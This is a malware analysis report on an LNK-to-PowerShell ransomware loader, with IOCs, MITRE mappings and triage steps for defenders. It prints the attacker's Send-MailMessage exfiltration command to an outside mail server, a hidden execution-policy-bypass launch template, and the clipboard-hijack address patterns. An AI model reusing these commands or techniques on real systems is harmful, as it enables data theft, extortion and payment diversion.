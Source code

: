 ## Executive summary

- Type: Ransomware loader via LNK → PowerShell
- Impact: Partial file encryption (head + tail), ransom note drop, persistence via Scheduled Tasks, clipboard hijacking for crypto addresses, basic host info exfiltration via SMTP
- User decoy: Opens a benign-looking minutes text file to distract the victim

## LNK target and initial behavior
- Target: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w h -ep b -c "..."`
  - `-w h` hidden window, `-ep b` ExecutionPolicy Bypass, inline PowerShell payload
- Creates and opens decoy file: `%TEMP%\Project_Workshop_7th_Minutes.txt`

## PowerShell payload overview
The inline PowerShell defines multiple functions whose bodies are stored as Base64 blobs and executed with IEX. I extracted and decoded all Base64 blobs; artifacts are saved alongside this report.

Decoded artifacts
- Full captured command: `Files/original_target_command.txt`
- Base64 manifest: `Files/decoded_manifest.json`
- Decoded blocks:
  - a_0 → `Files/decoded_a_0.txt`: main ransomware encryptor + ransom note dropper
  - j_1 → `Files/decoded_j_1.txt`: persistence tasks for function `c` (encryptor)
  - p_2 → `Files/decoded_p_2.txt`: persistence tasks for function `b` (loader calling encryptor)
  - a_3 → `Files/decoded_a_3.txt`: clipboard hijacker (BTC/ETH/SOL)
  - j_4 → `Files/decoded_j_4.txt`: persistence for function `p` (re-seeding tasks)
  - a_5 → `Files/decoded_a_5.txt`: clipboard hijacker (duplicate of a_3)
  - j_6 → `Files/decoded_j_6.txt`: persistence for function `p` (duplicate of j_4)
  - x_7 → `Files/decoded_x_7.txt`: persistence that schedules `q` (clipboard hijack) and `r` (task re-seeding)

## Ransomware encryption details (from decoded_a_0)
- Targets
  - User profile folders: Documents, Pictures, Videos, Music, Desktop, Downloads, Favorites, OneDrive
  - Fixed/removable drives: D:\, E:\, F:\, G:\, H:\
- Exclusions by extension (will NOT encrypt): `.exe,.lnk,.dll,.bin,.bat,.cmd,.sys,.inf,.vxd,.ini,.cfg,.reg,.hiv,.tmp,.html`
- Method
  - AES-CBC (random 16‑byte key per run; random IV per file), PKCS7 padding
  - RSA (public key embedded; exponent 0x10001) used to encrypt the AES key; appended per file
  - For each file: encrypt first 4KB; if file > 4KB, also encrypt last 4KB; else encrypt whole file
  - Appends trailer: IV (16 bytes) + RSA-encrypted AES key (likely 256 bytes) ≈ 272 bytes total
  - Renames files to add `.tmp` (e.g., `report.docx.tmp`)
  - Multi-threaded via RunspacePool; clears Recycle Bin afterward
- Ransom note
  - Dropped as `DECRYPT_INSTRUCTION.html` in each processed directory
  - Timers: “Payment due” 48h; “Files lost” 120h (computed from current UTC)
  - Payment: Monero (XMR) $500 to wallet below; provides “Generate Machine ID” UI
  - Contacts: email and TOX (below)

## Persistence (Scheduled Tasks)
Creates multiple Scheduled Tasks to ensure repeated execution in hidden PowerShell:
- WindowsLicenseManager (At logon) → runs encryptor `c`
- MicrosoftEdgeUpdate (Daily 11:00) → runs encryptor `c`
- WindowsSecurityUpdateService (Daily 17:00) → runs encryptor `c`
- WindowsWirelessService (At logon) → runs loader/clipboard hijacker (`p` or `q`)
- WindowsSecurityService (At logon) → runs `r` (task re-seeding)
Command template executed by tasks:
- `powershell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -c "<inlined function body>"`

## Clipboard hijacking (from decoded_a_3 / a_5)
Continuously monitors clipboard and replaces cryptocurrency addresses with attacker-controlled ones:
- BTC (bech32): pattern `^bc1q[ac-hj-np-z02-9]{38}$` → replace with `bc1q3d3cmkmhgrxczxhh9n489mxtgk35ld8mtllcd7`
- ETH (hex): pattern `^0x[a-fA-F0-9]{40}$` → replace with `0xa617428aA72Cd7a816aB79e488A1eEC15E7cB23B`
- SOL (base58 44 chars): pattern `^[1-9A-HJ-NP-Za-km-z]{44}$` → replace with `p8paSRFj1CbUM3pik4j53y5aXTJqBd9UcjEmYCz5M1g`

## Host info exfiltration
Sends basic host profile via SMTP:
- Cmd: `Send-MailMessage -SmtpServer in.mail.tm -Port 25 -From 'test@test.com' -To '244zita@mechanicspedia.com' -Subject 'MachineInfo' -Body "<OS | PSVersion | CPU | User>"`

## Indicators of Compromise (IOCs)
- LNK behavior: PowerShell with `-w h -ep b -c`, decoy file `%TEMP%\Project_Workshop_7th_Minutes.txt`
- Dropped ransom note: `DECRYPT_INSTRUCTION.html` in many directories
- File rename: adds `.tmp`; file trailer ≈ 272 bytes (16 IV + 256 RSA)
- File hashes (SHA-256):
  - LNK: B0371C1026FB1E75F4BBB7FA4E0A344086AEF7787C78117576A50C00C67B9264
  - target.txt: 9AD96CD95FBF4365602470839A0AE2FC685019A5F338DDE772F7D475338A6B61
- Monero wallet (ransom):
  - `8BEMpCuSL5aBF5rG1a9UNFgBcPU16eNUXbXDBzQJqD3E4jdJaUhAw3LCVH3F4gPUysioYrjsPMa3447oLoSuAhUrH7EQtCC`
- Clipboard hijack addresses:
  - BTC: `bc1q3d3cmkmhgrxczxhh9n489mxtgk35ld8mtllcd7`
  - ETH: `0xa617428aA72Cd7a816aB79e488A1eEC15E7cB23B`
  - SOL: `p8paSRFj1CbUM3pik4j53y5aXTJqBd9UcjEmYCz5M1g`
- Ransom contacts:
  - Email: `kit8280@punkproof.com`
  - TOX: `D6DABDD9600C9C5481ED4127071509D287DD539FB36F0BC82D4FA0F0800AF970923B5500064D`
- Exfil target:
  - SMTP server: `in.mail.tm:25`
  - Recipient: `244zita@mechanicspedia.com`
- Scheduled Task names:
  - WindowsLicenseManager, MicrosoftEdgeUpdate, WindowsSecurityUpdateService, WindowsWirelessService, WindowsSecurityService

## Likely MITRE ATT&CK
- T1059.001 PowerShell
- T1486 Data Encrypted for Impact
- T1053.005 Scheduled Task
- T1115 Clipboard Data (hijacking)
- T1041 Exfiltration Over Unencrypted/Non-C2 Channel (SMTP)

## Assessment and conclusion
- This LNK is a ransomware dropper/launcher. It encrypts file head/tail, appends IV+RSA-encrypted AES key, renames to `.tmp`, and drops a ransom note requesting XMR.
- It persists via multiple Scheduled Tasks and includes a crypto clipboard hijacker to steal unrelated payments.
- Without the RSA private key matching the embedded modulus, decryption is not feasible; restoration requires clean backups or volume shadow copies if intact (none are explicitly deleted here).

## Analyst notes and triage guidance
- Contain:
  - Kill hidden PowerShell sessions; disable PowerShell for the user temporarily
  - Delete the Scheduled Tasks listed above
  - Block egress to `in.mail.tm` and mail to `mechanicspedia.com`
- Hunt:
  - Search for `.tmp`-suffixed user files with 272-byte trailers
  - Locate `DECRYPT_INSTRUCTION.html` (hash across environment) and remove
  - Review Event Logs: Microsoft-Windows-TaskScheduler/Operational for the task names
- Recover:
  - Restore affected files from backups; confirm restored files lack the 272-byte trailer
- Prevent:
  - Constrain PowerShell (Constrained Language Mode / Script Block Logging), application control for LNK → PowerShell chain

## Evidence references
- `Files/original_target_command.txt`
- `Files/decoded_a_0.txt` (encryptor + ransom note)
- `Files/decoded_j_1.txt`, `decoded_p_2.txt`, `decoded_j_4.txt`, `decoded_j_6.txt`, `decoded_x_7.txt` (persistence)
- `Files/decoded_a_3.txt`, `decoded_a_5.txt` (clipboard hijack)
